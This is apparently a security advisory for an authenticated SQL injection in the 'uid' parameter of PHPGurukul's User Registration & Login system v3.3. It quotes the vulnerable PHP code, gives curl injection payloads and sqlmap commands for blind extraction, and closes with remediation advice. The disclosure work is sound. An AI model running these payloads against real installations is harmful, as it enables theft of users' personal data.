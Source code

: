 # User Registration & Login and User Management System With Admin Panel v3.3 Authenticated SQL Injection in admin-user-profile.php (uid)  

## Summary
An authenticated SQL Injection vulnerability exists in the admin user profile page (`/admin/user-profile.php`) of “User Registration & Login and User Management System With Admin Panel” version 3.3. The `uid` GET parameter is concatenated directly into a SQL query, enabling time-based and boolean-based blind SQL injection.

- Vulnerability Type: SQL Injection (CWE-89)
- Affected Product: User Registration & Login and User Management System With Admin Panel
- Affected Version: v3.3 (confirmed)
- Affected Endpoint: `/loginsystem/admin/user-profile.php`
- Vulnerable Parameter: `uid` (GET)
- Authentication: Required (Admin session)
- Severity (proposed CVSS v3.1): 7.5 High (AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N)

## Technical Details
The page builds a query using user-controlled `uid` without parameterization or validation:

File evidence:
- Source file: loginsystem/admin/user-profile.php
- Root cause: direct string concatenation of `$_GET['uid']` into the SQL statement

```php
<?php
$userid=$_GET['uid'];
$query=mysqli_query($con,"select * from users where id='$userid'");
while($result=mysqli_fetch_array($query)) { /* render profile */ }
```

This enables attackers with a valid admin session to inject arbitrary SQL predicates, e.g. time-based blind via `SLEEP()` or boolean-based blind using `AND/OR` conditions.

## Proof of Concept (safe, reproducible)
Prerequisite: Login as admin to obtain a valid PHPSESSID cookie.

- Boolean-based blind (observe content differences or HTTP status/length):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20AND%200%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Boolean-based blind (true branch):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20OR%201%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Time-based blind (sqlmap; stabilize timing and reduce noise):
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=T --time-sec=10 --delay=1 --timeout=30 --retries=3 --keep-alive --random-agent --flush-session --current-db
```

Your successful run (sample) showed:
- Payload: `uid=1' AND (SELECT(SLEEP(5)))-- ...`
- Backend: Apache 2.4.39, PHP 7.3.4, MySQL ≥ 5.0.12
- Confirmed time-based blind delays and sqlmap detection (enumeration may fail under jitter; see “Verification tips”)

## Impact
- Read: Enumerate database schema and extract sensitive user data (PII: names, emails, contact numbers, registration dates).
- Pivot: Combine with other admin-side injection issues to broaden exfiltration.
- Risk: High for confidentiality; moderate for integrity (primarily SELECT-context), availability unaffected.

## Verification tips (if enumeration is unstable)
- Prefer boolean-based blind for this endpoint:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --random-agent --flush-session --dbs
```
- For time-based blind, increase `--time-sec`, add `--delay`, try `--no-cast`/`--hex`, and replay a captured request with `-r` to include exact headers/cookies.

## Remediation
- Replace direct string concatenation with prepared statements.
- Validate and type-check GET/POST parameters (e.g., ensure `uid` is an integer).
- Apply least-privilege DB accounts and server-side input validation.

Minimal secure patch suggestion (prepared statements):
See the “Patch snippet” section below for `admin/user-profile.php`.

## Affected Files
- `loginsystem/admin/user-profile.php` (primary injection point)

## Timeline
- Discovery: 2025-09-25

## References
- Product page (version reference): PHPGurukul “User Registration & Login and User Management System With Admin Panel” (v3.3)
- Internal code evidence: repository file `loginsystem/admin/user-profile.php`

## Appendix: Suggested sqlmap commands
- Enumerate current DB with boolean-based blind:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --current-db
```

